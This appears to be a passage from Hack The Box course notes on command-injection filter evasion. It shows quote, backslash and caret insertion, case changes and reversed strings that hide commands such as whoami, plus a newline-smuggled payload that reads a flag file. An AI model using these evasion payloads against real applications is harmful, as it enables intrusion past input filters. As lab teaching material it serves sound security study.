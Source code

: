 Note:  We cannot mix types of quotes and the number of quotes must be even. 

## characters-in-the middle obfuscation technique -  Linux only

```bash
who$@ami
w\ho\am\i
```

## characters-in-the middle obfuscation technique -  Windows only

```bash
C:\htb> who^ami
```

## Example

```php
127.0.0.1%0a{c"at",${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}

#MEANING

127.0.0.1
cat /home/inj3c70r/flag.txt
```

# **Advanced Command Obfuscation**

## **Case Manipulation**

### CMD & PowerShell

```php
PS C:\htb> WhOaMi
```

### Linux

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

## **Reversed Commands**

### Linux

```bash
echo 'whoami' | rev

$(rev<<<'imaohw')
```
